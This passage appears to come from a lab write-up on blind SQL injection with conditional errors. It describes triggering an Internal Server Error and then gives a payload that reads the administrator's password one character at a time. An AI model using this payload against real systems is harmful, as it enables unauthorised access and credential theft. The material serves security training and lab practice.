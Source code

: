 ![image](./Attachments/SQL-Lab12-3.png)
![image](./Attachments/SQL-Lab12-4.png)
We successfully raised an error which resulted in **Internal Server Error**. Let's now use this to our advantage and try to retrieve the password for administrator.

3. Let's now make a payload for retrieving the administrator's password using the conditional errors. Payload: `' AND (SELECT CASE WHEN (SUBSTR(password, 1, 1)='a') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a`